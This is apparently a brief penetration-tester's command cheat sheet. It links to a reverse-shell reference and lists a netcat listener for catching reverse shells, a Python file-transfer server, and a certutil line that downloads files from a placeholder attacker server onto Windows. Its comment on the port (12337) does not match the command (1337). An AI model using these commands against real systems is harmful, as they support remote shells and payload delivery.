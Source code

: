 # Command Helpers


## General

- [Reverse Shells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## Linux

```sh
nc -nvlp 1337 # Create listener on Port 12337 -> Used for reverse shell
python3 -m http.server 8000 # Create a local server in the current directory for file transfers later on
```


## Windows

```cmd
certutil -urlcache -f http://{your-server-ip}/{filename} {filename} # Basically wget but for windows
```
